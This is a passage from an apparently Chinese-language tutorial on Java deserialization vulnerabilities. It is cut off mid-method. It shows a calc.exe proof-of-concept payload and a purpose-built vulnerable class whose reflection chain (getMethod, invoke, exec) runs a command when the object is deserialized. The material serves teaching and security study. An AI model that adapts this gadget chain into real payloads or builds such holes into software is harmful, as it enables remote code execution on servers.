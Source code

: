 ## 恶意代码

在进行攻击之前，我们将构造出一段恶意代码，该恶意代码的主要功能是运行对方电脑上的计算器

```java
public static void main(String[] args) throws IOException {
    Runtime.getRuntime().exec("calc.exe");
}
```

## 恶意代码的包装

Java的反序列化漏洞中,目前我们只能传输一个对象的属性与状态，而不是字节码，因此我们就需要使用Java的反射技术来将我们的代码意图进行掩盖，以确保我们的恶意代码能传输到目标服务器上。

为了演示出一个 "合格" 的漏洞代码，我们构建了一个Java类,代码如下所示。

一个由我们构造的满足入侵条件的Java反序列化漏洞案例

```java
public class ReflectionPlay implements Serializable{

  public static void main(String[] args) throws Exception {
      new ReflectionPlay().run();
  }

  public void run() throws Exception {
      byte[] ObjectBytes=serialize(getObject());
      deserialize(ObjectBytes);
  }

  //在此方法中返回恶意对象
  public Object getObject() {
      String command = "calc.exe";
      Object firstObject = Runtime.class;
      ReflectionObject[] reflectionChains = {
              //调用 Runtime.class 的getMethod方法,寻找 getRuntime方法，得到一个Method对象(getRuntime方法)
              //等同于 Runtime.class.getMethod("getRuntime",new Class[]{String.class,Class[].class})
              new ReflectionObject("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
              //调用 Method 的 invoker 方法可以得到一个Runtime对象
              // 等同于 method.invoke(null),静态方法不用传入对象
              new ReflectionObject("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
              //调用RunTime对象的exec方法,并将 command作为参数执行命令
              new ReflectionObject("exec", new Class[]{String.class}, new Object[]{command})
      };

      return new ReadObject(new ReflectionChains(firstObject, reflectionChains));
  }

  /*
   * 序列化对象到byte数组
   * */
  public byte[] serialize(final Object obj) throws IOException {
      ByteArrayOutputStream out = new ByteArrayOutputStream();
      ObjectOutputStream objOut = new ObjectOutputStream(out);
      objOut.writeObject(obj);
      return out.toByteArray();
  }

  /*
   * 从byte数组中反序列化对象
   * */
  public Object deserialize(final byte[] serialized) throws IOException, ClassNotFoundException {
      ByteArrayInputStream in = new ByteArrayInputStream(serialized);
```